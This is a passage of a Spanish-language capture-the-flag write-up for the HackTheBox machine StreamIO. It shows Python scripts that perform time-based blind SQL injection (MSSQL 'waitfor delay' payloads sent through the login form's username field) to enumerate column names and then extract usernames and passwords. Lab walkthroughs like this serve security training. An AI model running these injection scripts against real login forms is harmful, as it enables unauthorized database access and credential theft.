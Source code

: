 ```ruby
				payload = "if(select substring(column_name,%d,1) from information_schema.columns where table_name='users' order by column_name offset %d rows fetch next 1 row only)='%c' waitfor delay'0:0:5'--" % (posición, columna, palabras)
                
                post_data = {
                    'username': "admin'%s" % (payload),
                    'password': 'admin'
                }

                p1.status(post_data['username'])
                
                
                time.start = time.time()
                r = requests.post(ip_address, data=post_data, verify=False)
                time.end = time.time()

                if time.end - time.start > 5:
                    
                    Columnas += palabra
                    
                    p2.status(Columnas)
                    
                    break
        Columnas += ', '

if __name__ == "__main__":
    sqlinyeccion()
```

Extraemos las siguientes columnas:

`id, is_staff, password, username`

Ahora que pinta mas interesante cambiamos un poco el script del **'payload'** para dar con los usuario y contraseñas:
```sql
if(select substring(COLUMN_NAME,1,1) from TABLA_NAME order by COLUMN_NAME offset 1 rows fetch next 1 row only)='m' waitfor delay'0:0:5'
```

Y por una última vez cambiamos el **'payload'**
```ruby
#!/usr/bin/python3

from pwn import *
import requests
import pdb
import string
import time
import urllib3

#Variables Globales
ip_address = "https://streamio.htb/login.php"
caracter = string.ascii_lowercase + string.punctuation

def sqlinyeccon():
    
    p1 = log.progress("Fuerza Bruta")
    p1.status("Fuerza Bruta")

    p2 = log.progress("Descripción")

    Contenido = ""
    
    for columna in range(0, 30):
```